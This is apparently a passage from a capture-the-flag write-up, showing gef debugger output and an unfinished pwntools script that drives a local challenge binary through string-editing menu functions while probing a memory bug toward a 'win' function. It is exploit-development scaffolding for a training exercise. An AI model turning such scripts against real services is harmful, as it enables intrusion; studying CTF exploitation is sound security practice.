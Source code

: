 ```  
────────────────────────────────────────────────────────────────────────────────  
gef➤  x/gx $rax+0x10  
0x55e909e09270: 0x000055e909de7226  
gef➤  x/i win  
  0x55e909de7680 <win>: push   rbp  
```  
Here is the script so far to get these outputs:  
```  
from pwn import *

target = process('./chall_patched', env={"LD_PRELOAD":"./libc-2.28.so"})

pid = gdb.attach(target, "b *display+32\nb *create_variable+314\n set
disassembly-flavor intel\ncontinue")

#target = remote('host.cg21.metaproblems.com', 3150)

elf = ELF('chall')

def create_string(length, content):

	print(target.recvuntil(b'5. Exit'))  
	target.sendline(b'1')  
	print(target.recvuntil(b'What type would you like?'))  
	target.sendline(b'1')  
	print(target.recvuntil(b'like your string to be'))  
	target.sendline(str(length))  
	print(target.recvuntil(b'data'))  
	target.sendline(content)

def edit_char(index, character):  
	print(target.recvuntil(b'5. Exit'))  
	target.sendline(b'3')  
	print(target.recvuntil(b'What index would you like to modify'))  
	target.sendline(str(index))  
	print(target.recvuntil(b'What type would you like?'))  
	target.sendline(b'4')  
	print(target.recvuntil(b'What is your value:'))  
	target.sendline(character)

def edit_string(index, length, data):  
	print(target.recvuntil(b'5. Exit'))  
	target.sendline(b'3')

	print(target.recvuntil(b'What index would you like to modify'))  
	target.sendline(str(index))

	print(target.recvuntil(b'What type would you like?'))  
	target.sendline(b'1')

	print(target.recvuntil(b'like your string to be'))  
	target.sendline(str(length))

	print(target.recvuntil(b'data'))  
	target.sendline(data)

def display():  
	print(target.recvuntil(b'5. Exit\n'))  
	target.sendline(b'2')

create_string(20, '0' * 20)  
edit_string(0, 15, b'a' * 15)

```